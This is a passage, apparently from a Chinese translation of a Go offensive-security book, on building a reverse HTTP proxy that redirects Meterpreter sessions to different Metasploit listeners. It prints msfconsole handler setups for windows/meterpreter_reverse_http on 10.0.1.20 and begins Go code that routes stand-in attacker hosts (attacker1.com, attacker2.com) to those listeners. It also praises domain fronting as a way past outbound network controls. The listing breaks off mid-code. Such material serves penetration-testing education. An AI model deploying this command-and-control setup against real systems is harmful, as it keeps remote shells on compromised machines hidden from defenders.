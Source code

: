 在这一节中，我们将演示如何用 Go 创建一个反向 HTTP 代理，这样你就可以根据 `Host` HTTP 头动态路由你的 Meterpreter 会话，这与虚拟主机的工作方式相同。然而，不同的是，你将代理连接到不同的 Meterpreter 监听器，而不是提供不同的本地文件和目录。这是一个有趣的用例，原因有很多。

首先，你的代理充当重定向器，允许你仅公开该域名和 IP 地址，而不暴露你的 Metasploit 监听器。如果重定向器被列入黑名单，你可以简单地将它移走，而无需移动 C2 服务器。其次，你可以扩展这里的概念来执行 *域名伪装*，这是一种利用受信任的第三方域名（通常来自云服务提供商）绕过限制性出站控制的技术。我们在这里不会深入展示完整的例子，但我们强烈推荐你深入了解它，因为它非常强大，可以帮助你突破受限的网络。最后，使用案例展示了你如何与一组可能针对不同目标组织的盟友共享一个主机/端口组合。由于端口 80 和 443 是最可能被允许的出站端口，你可以使用你的代理监听这些端口，并智能地将连接路由到正确的监听器。

计划是这样的。你将设置两个独立的 Meterpreter 反向 HTTP 监听器。在这个例子中，它们将驻留在一个 IP 地址为 10.0.1.20 的虚拟机上，但它们也可以存在于不同的主机上。你将分别将监听器绑定到端口 10080 和 20080。在实际情况中，这些监听器可以运行在任何地方，只要代理能够访问这些端口。确保你已经安装了 Metasploit（它在 Kali Linux 中预装），然后启动你的监听器。

```
   $ msfconsole
   > use exploit/multi/handler
   > set payload windows/meterpreter_reverse_http
❶ > set LHOST 10.0.1.20
   > set LPORT 80
❷ > set ReverseListenerBindAddress 10.0.1.20
   > set ReverseListenerBindPort 10080
   > exploit -j -z
   [*] Exploit running as background job 1.

   [*] Started HTTP reverse handler on http://10.0.1.20:10080
```

启动监听器时，你将代理数据作为 `LHOST` 和 `LPORT` 值 ❶ 提供。然而，你将高级选项 `ReverseListenerBindAddress` 和 `ReverseListenerBindPort` 设置为你希望监听器启动的实际 IP 和端口 ❷。这样，你可以在使用端口时具有一些灵活性，同时显式地识别代理主机——如果你设置了域名伪装，这个主机名可能就是一个域名。

在第二个 Metasploit 实例中，你将做类似的操作，启动一个在端口 20080 上的额外监听器。唯一的实际区别是你将绑定到不同的端口：

```
$ msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter_reverse_http
> set LHOST 10.0.1.20
> set LPORT 80
> set ReverseListenerBindAddress 10.0.1.20
> set ReverseListenerBindPort 20080
> exploit -j -z
[*] Exploit running as background job 1.

[*] Started HTTP reverse handler on http://10.0.1.20:20080
```

现在，让我们创建你的反向代理。清单 4-10 显示了完整的代码。

```
   package main

   import (
       "log"
       "net/http"
    ❶ "net/http/httputil"
       "net/url"
 "github.com/gorilla/mux"
   )

❷ var (
       hostProxy = make(map[string]string)
       proxies   = make(map[string]*httputil.ReverseProxy)
   )

   func init() {
    ❸ hostProxy["attacker1.com"] = "http://10.0.1.20:10080"
       hostProxy["attacker2.com"] = "http://10.0.1.20:20080"

       for k, v := range hostProxy {
```